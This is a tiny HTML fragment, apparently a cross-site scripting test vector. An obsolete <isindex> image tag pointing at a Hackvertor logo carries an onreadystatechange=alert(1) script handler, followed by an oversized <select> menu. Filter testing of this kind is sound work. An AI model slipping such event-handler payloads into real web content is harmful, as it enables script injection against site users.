 <isindex type=image src=http://www.businessinfo.co.uk/labs/hackvertor/images/logo.gif onreadystatechange=alert(1)>
<select style="font-size: 300px;">
	<option>OPT</option>
	<option>OPT</option>
	<option>OPT</option>
	<option>OPT</option>
	<option>OPT</option>
	<option>OPT</option>
	<option>SPT</option>
</select>


